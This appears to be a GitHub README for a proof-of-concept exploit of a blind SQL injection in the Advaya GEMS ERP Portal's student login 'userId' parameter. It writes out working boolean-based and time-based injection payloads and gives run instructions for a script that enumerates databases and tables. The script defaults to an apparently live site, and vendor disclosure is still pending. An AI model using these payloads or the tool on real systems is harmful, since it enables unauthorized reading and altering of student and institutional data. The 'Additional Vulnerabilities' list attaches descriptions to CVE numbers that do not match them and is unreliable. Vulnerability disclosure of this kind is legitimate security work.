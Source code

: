 
# SQL Injection Vulnerability in Advaya GEMS ERP Portal v2.1

⚠️ For **educational and authorized security research** only. Unauthorized testing is strictly prohibited.

## 📌 Overview

This repository contains a **Proof of Concept (PoC)** for a **high-severity SQL Injection vulnerability** (Boolean- and Time-Based Blind) in the `userId` parameter of the Advaya GEMS ERP Portal, developed by Advaya Softech.

- **Vulnerability Type**: SQL Injection (Boolean-Based Blind, Time-Based Blind)
- **Severity**: High
- **Affected Endpoint**: `/studentLogin/studentLogin.action`
- **Vulnerable Parameter**: `userId`
- **Target Example**: `https://<target_domain>/studentLogin/studentLogin.action`
- **Discovered By**: Kuppam Johari
- **Reported To Vendor**: October 1, 2024

---

## 🛡️ Ethical Notice

This PoC is provided for educational and authorized penetration testing only. Testing without **explicit permission** is illegal and unethical. Do not use this tool on unauthorized systems.

---

## Vulnerability Details

The `userId` parameter is vulnerable to SQL injection, allowing database query manipulation.

### Techniques Used
- **Boolean-Based Blind**: Evaluate conditions such as `4601=4601`
- **Time-Based Blind**: Use SQL `SLEEP()` to infer query success via delay

### Example Payloads

**Boolean-Based**:
```
userId=testCSC2024' AND 4601=4601-- KCOJ&password=testCSC2024
```

**Time-Based (in script)**:
```
' AND (SELECT 1 FROM (SELECT(SLEEP(0.6-(IF(ORD(MID((<query>)),<pos>,1))=<char_code>,0,0.6)))))a) AND '1'='1
```

---

## 💥 Impact

- **Data Exposure**: Read sensitive data from databases
- **Data Manipulation**: Insert, update, or delete records

---

## 🛠️ Proof of Concept

- [`GEMS_POC.py`](./GEMS_POC.py): Automates time-based SQL injection to extract DB data
- [`ADVAYA-GEMS-Vulnerability-Report.pdf`](./ADVAYA-GEMS-Vulnerability-Report.pdf): Full vulnerability disclosure, PoC, and mitigation guidance

### Script Features

- ✅ Multi-threaded Enumeration (6 threads)
- ✅ Character Confirmation (double-checks each character)
- ✅ Interactive Menu
- ✅ Customizable delays, charsets, thresholds

---

## 🚀 Usage

### Requirements

- Python 3.x
- Dependencies:
```bash
pip install requests
```

### Run the PoC

```bash
git clone https://github.com/kuppamjohari/advaya-gems-sql-injection-poc.git
cd advaya-gems-sql-injection-poc
python GEMS_POC.py
```

### Menu Options

- Change target domain (default: `https://pesgems.in/`)
- Extract current DB name
- List all DBs
- Enumerate tables in a DB
- Exit

---

## ⚠️ Additional Vulnerabilities Referenced

- CVE-2015-9251 – Directory traversal
- CVE-2020-11022 – XSS
- CVE-2020-7656 – DoS (websocket)
- CVE-2020-11023 – API access bypass
- CVE-2019-11358 – DoS (APC)
- CVE-2012-6708 – Code injection (JSON)

---

## References

- [OWASP SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- Watch the PoC video: [SQL Injection Vulnerability in Advaya GEMS ERP Portal](https://www.youtube.com/watch?v=bs6WT-zCAmo)
  [![Video Thumbnail](https://img.youtube.com/vi/bs6WT-zCAmo/0.jpg)](https://www.youtube.com/watch?v=bs6WT-zCAmo)
---

## CVE Status

- Not yet assigned
- Submitted to:
  - Advaya Softech (Disclosure Contact Pending)
  - CVE assignment (Pending)

---

## 📝 Disclaimer

This project is for **authorized security testing and research** only. The author and contributors are not responsible for misuse or unauthorized access. Always obtain written permission before testing.
